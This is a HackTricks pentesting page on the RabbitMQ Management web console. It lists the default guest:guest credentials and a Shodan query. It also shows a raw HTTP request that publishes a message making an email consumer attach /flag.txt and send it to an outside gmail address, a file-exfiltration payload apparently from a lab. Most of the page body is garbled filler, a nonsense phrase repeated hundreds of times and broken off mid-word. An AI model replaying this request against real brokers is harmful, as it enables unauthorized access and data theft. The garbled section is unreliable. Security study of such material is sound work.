 # 15672 - Pentesting RabbitMQ Management

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>!</strong></a><strong>!</strong></summary>

Other ways to support HackTricks:

* If you want to see your **company advertised in HackTricks** or **download HackTricks in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks_live)**.**
* **Share your hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>

<img src="../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt="" data-size="original">

If you are interested in **hacking career** and hack the unhackable - **we are hiring!** (_fluent polish written and spoken required_).

{% embed url="https://www.stmcyber.com/careers" %}

## Basic Information

You can learn more about RabbitMQ in [**5671,5672 - Pentesting AMQP**](5671-5672-pentesting-amqp.md).\
In this port you may find the RabbitMQ Management web console if the [management plugin](https://www.rabbitmq.com/management.html) is enabled.\
The main page should looks like this:

![](<../.gitbook/assets/image (270).png>)

## Enumeration

The default credentials are "_**guest**_":"_**guest**_". If they aren't working you may try to [**brute-force the login**](../generic-methodologies-and-resources/brute-force.md#http-post-form).

To manually start this module you need to execute:
```
rabbitmq-plugins enable rabbitmq_management
service rabbitmq-server restart
```
qaStaHvIS 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlhutlh. 'e' vItlh
```bash
POST /api/exchanges/%2F/amq.default/publish HTTP/1.1
Host: 172.32.56.72:15672
Authorization: Basic dGVzdDp0ZXN0
Accept: */*
Content-Type: application/json;charset=UTF-8
Content-Length: 267

{"vhost":"/","name":"amq.default","properties":{"delivery_mode":1,"headers":{}},"routing_key":"email","delivery_mode":"1","payload":"{\"to\":\"zevtnax+ppp@gmail.com\", \"attachments\": [{\"path\": \"/flag.txt\"}]}","headers":{},"props":{},"payload_encoding":"string"}
```
### Shodan

* `port:15672 http`

<img src="../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt="" data-size="original">

If you are interested in **hacking career** and hack the unhackable - **we are hiring!** (_fluent polish written and spoken required_).

{% embed url="https://www.stmcyber.com/careers" %}

<details>

<summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Other ways to support HackTricks:

* If you want to see your **company advertised in HackTricks** or **download HackTricks in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks_live)**.**
* **Share your hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
